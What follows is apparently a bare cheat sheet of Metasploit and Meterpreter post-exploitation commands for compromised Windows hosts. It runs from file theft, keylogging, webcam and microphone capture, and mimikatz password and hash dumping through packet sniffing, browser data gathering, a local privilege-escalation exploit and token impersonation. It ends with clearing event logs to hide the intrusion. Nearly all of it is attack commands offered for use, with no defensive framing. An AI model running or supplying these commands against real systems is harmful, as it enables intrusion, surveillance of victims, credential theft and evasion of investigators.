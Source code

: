 `search -f sea*.bat c:\\xamp\\`

`download C:\\a.txt`

`upload test.txt C:\\a\\`

`execute -f notepad.exe`

`sysinfo`

`execute  -H -m -d notepad.exe-f  wce.exe -a "-o wce.txt"`

`idletime`

`edit C:\\windows\\system32\\drivers\\etc\\hosts`

`portfwd  add -l 4444 -p 3389 -r 192.168.1.102`

`rdesktop -u Administrator -p 123 127.0.0.1:4444`

`rdesktop 127.0.0.1:4444`

`route`

`route add 192.168.1.0 255.255.255.0 1`

`run get_local_subnets`

`Arp`

`Getproxy`

`sessions -u 1`

```
keyscan_start
keyscan_dump
keyscan_stop
```

`uictl enable keyboard/mouse`

```
getdesktop
screenshot
record_mic
webcam_chat
webcam_list
webcam_stream
webcam_snap
```

`reboot`

```
load mimikatz 
msv
kerberos
ssp
wdigest
mimikatz_command -f hash::
mimikatz_command -f sekurlsa::searchPasswords
```

```
use sniffer
sniffer_interfaces 
sniffer_start 2
sniffer_dump 2 ./down.cap
sniffer_stop 2 
#----------------
use auxiliary/sniffer/psnuffle
set pcapfile down.cap
run
#----------------
capinfos down.cap
```

```
run post/windows/gather/checkvm
run post/windows/gather/enum_applications 
run post/windows/gather/dumplinks
run post/windows/gather/enum_ie
run post/windows/gather/enum_chrome 
run scraper
run post/windows/gather/smart_hashdump
run post/windows/gather/enum_logged_on_users
```

```
getuid
getprivs
getsystem
ps
migrate pid
```

```
use exploit/windows/local/ms14_058_track_popup_menu
set SESSION 2
run
```

```
use incognito
list_tokens -u
list_tokens -g 
impersonate_token DOMAIN_NAME\\USERNAME
execute -f cmd.exe -i -t
steal_token pid
drop_token pid
```

`clearev`